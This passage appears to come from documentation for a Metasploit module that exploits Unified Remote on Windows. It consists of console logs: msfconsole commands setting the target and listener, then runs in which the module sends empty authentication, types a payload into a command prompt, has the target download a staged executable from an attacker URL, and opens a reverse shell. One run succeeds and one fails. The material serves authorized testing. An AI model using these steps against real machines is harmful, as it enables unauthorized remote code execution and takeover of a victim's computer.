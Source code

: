```
[-] 2.2.2.2:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[+] 2.2.2.2:9512 - Payload request received, sending 73802 bytes of payload for staging
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 2.2.2.2
[*] Command shell session 1 opened (1.1.1.1:4444 -> 2.2.2.2:60829) at 2022-09-08 17:00:30 -0400
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\QD7V9rLaWUwvPIY.exe' on the target


Shell Banner:
Microsoft Windows [Version 10.0.16299.125]
-----
          

C:\Users\windows>
```

### Version 3.11.0.2483 on Windows 10, user authentication, no web server access, visible true

This will fail.

```
resource (unified.rb)> use exploits/windows/misc/unified_remote_rce
[*] Using configured payload windows/shell/reverse_tcp
resource (unified.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (unified.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (unified.rb)> set verbose true
verbose => true
msf6 exploit(windows/misc/unified_remote_rce) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] 2.2.2.2:9512 - Client name set to: android-iJP3rW13dKjtf8Xz
[*] 2.2.2.2:9512 - Retrieving server config
[-] 2.2.2.2:9512 - Web interface is disabled. Unable to attempt bypass, assuming no authentication.
[*] 2.2.2.2:9512 - Sending handshake
[*] 2.2.2.2:9512 - Sending empty authentication
[*] 2.2.2.2:9512 - Opening Start Menu
[*] 2.2.2.2:9512 - Opening command prompt
[*] 2.2.2.2:9512 - Typing out payload
[*] 2.2.2.2:9512 - Using URL: http://1.1.1.1:8080/
[*] 2.2.2.2:9512 - Attempting to open payload
[*] 2.2.2.2:9512 - Server stopped.
[!] 2.2.2.2:9512 - This exploit may require manual cleanup of 'c:\Windows\Temp\tapEZnGskY.exe' on the target
[*] Exploit completed, but no session was created.
```
